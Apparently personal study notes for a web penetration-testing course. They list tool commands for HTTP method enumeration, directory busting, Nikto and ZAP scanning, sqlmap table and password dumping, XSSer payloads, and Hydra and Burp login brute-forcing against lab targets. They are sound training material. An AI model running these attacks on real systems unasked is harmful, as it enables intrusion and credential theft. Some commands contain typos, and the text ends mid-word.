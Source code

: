 
##### Web and HTTP protocol (enumerate HTTP methods)

HTTP Methods 
- **GET**
- **POST**
- **PUT**
- **HEAD**
- **DELETE**
- **PATCH**
- **OPTIONS**
- **CONNECT**
- **TRACK**
  
- Use inspector to inspect logon page (method and where it is send)
- dirb for directory busting (find hidden direcotries):
	- `dirb http://ip `
- Check what options are possible for the webfiles/directories found with dir: 
	- `curl -X GET ip `
	- `curl -I ip ` (HEAD)
	- `curl -X OPTIONS ip -v`
	- `curl -X PUT ip `
	- `curl -X OPTIONS ip/loging.php -v `
	- `curl -X POST ip `
	- `curl -X HEAD ip`
	- `curl -X POSt ip/login.php -d "name=john&password=password" -v` 
	- `curl -X OPTIONS ip/page_of_interest -v `
	- `curl -XPUT ip `
	- `curl -XDELETE ip/uploads/file.txt`

The Webdav module is enabled on the Apache Server, Webdav module allows file upload via PUT method
PUT method. ![[Pasted image 20230928141102.png]]

If PUT is possible: `curl ip/uploads/ --upload-file file.txt`

-- 

To use Burp to find the HTTP methods allowd: 
send request to repeater and change the method in the request:
![[Pasted image 20230928141257.png]]
![[Pasted image 20230928141341.png]]

##### Directory enumeration with GoBuster 


- similar to dirb 
- `gobuster`  (manual)
- `gobuster dir -u http://ip -w /usr/share/wordlist/dirb/common.txt `
- `gobuster dir -u http://ip -w /usr/share/wordlist/dirb/common.txt -b 403,404 ` (filter out 403 and 404)
- scan for specific file extensions: .php, .xml, .txt: `gobuster dir -u http://192.156.207.3 -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r``



##### Directory Enumeration with Burp Suite 

- turn on proxyfox 
- Action - send to intruder 
- check target 
- intruder (positions)
- change get request ` Get /$name$` ![[Pasted image 20230926152712.png]] 
	- Sniper (directly) Attack type are different 
- Payloads
	- Add: data, passwords, phphmyadmin, js, images, 
	- + load wordlist from kali: wordlists/dirb/common




GET /§name§ HTTP/1.0
Cookie: c=cval
Content-Length: 17


##### Scanning Web Application with ZAProxy 

- run nmap scan 
open owasp zap 
click around on website to collect data 
![[Pasted image 20230926180039.png]]

Select form based authentication
Right click on the POST request, navigate to "Include in Context" and select on
"Default Context".
![[Pasted image 20230926180141.png]]
Make sure user mode is enabled 
Use the spider to do enumaration 




##### Scanning web Applications with Nikto 

- `ping` and `nmap` for port 80 
- `nikto` 
- `nikto -Help `
- `nikto -h http://ip `
- `nikto -h http://ip/full_url -Tuning 5 -Display V
	- HTML rapport overzicht: `nikto -h http://ip/full_url -Tuning 5 -Display V -o nikto-results.hthml -Format html' 
 file:///root/nikto.html 

##### Passive Crawling with Burp Suite 

- pull up http server with webbrowser 
- turn on burpsuite with foxyproxy
- check http history 
- target shows tree of site map 
- add the ip you test to the scope 
- proxy tab - HTTP history 
![[Pasted image 20230928205515.png]]
after clicking on website the crawler gets te data -> Target tab 




##### SQL Injection with SQLMap 
- run `nmap` 
- turn on foxyproxy 
- turn on burp - intercept on
- `sqlmap` 
- `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title `
![[Pasted image 20230926210205.png]]
- get the request in repeater so we can change it and send it again: 
![[Pasted image 20230926210610.png]]
- - `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title -D bWapp --tables `
- `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title -D bWapp -T users --columns `
- `sqlmap -u "http://ip/sql_1.php?title=joe&action=search" --cookie "PHPSESSID=paste_cookie; security_level=0" -p title -D bWapp -T users -C admin,passwords,email`



Generate new payloads - use payloads in repeater in burp 
- `sqlmap -r request -p title ` 




##### XSS Attack with XSSer

- visit 80 in browser 
- turn on foxyproxy 
- `xxser`
- `xsser -url "http://ip/index.php?page=dns-lookup.php" -p "payload" --auto ` (change payload to payload)
	- add custom script with: `--Fp "<script>alert(1)</script>"`
- scan page: `xsser -url "http://ip/index.php?PAGE_OF_INTREST"
**CHANGE YOU VARIABLE WITH XSS**
![[Pasted image 20230926212948.png]]










##### Authenticated XSS Attack with XSSer 

We need a cookie to try authenticated session 
Script is interpreted 
![[Pasted image 20230926213430.png]]

Use xsser to find out if its vulnerable for XSS
- `xsser` 
- `xsser -url "http://ip/path?firstanem=XSS&etc" --cookie"security_level=0; PHPSESSID=cookie" `
add `<script>alert(1)</script>`


##### Attacking HTTP Login From with Hydra 

- `hydra` 
  view page source to see what the post request for login is asking for and add that to the hydra command
- `hydra -L users_list -P passwords_list target_ip http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:reply_that_hydra_should_belookingfor




##### Attacking Basic Auth with Burp Suite 


- visti: `http://ip/basic`
![[Pasted image 20230926214941.png]]
Everything will be encrypted in base64 
![[Pasted image 20230926215015.png]]
add payload with wordlist - payload processing: add prefix admin: - encoded base 64 - 
decode in burp 
(smartdecode)
![[Pasted image 20230926215259.png]]



##### Attacking HTTP Login From ZAProxy 

- open owasp zap in kali (zaproxy)
- manual explore enter the ip and launch browser 
- try a login to capture the traffic 
- use the POST request with the login - right click and fuzz 
- load wordlist (select the username or password and Add)
- start fuzzer 


/fil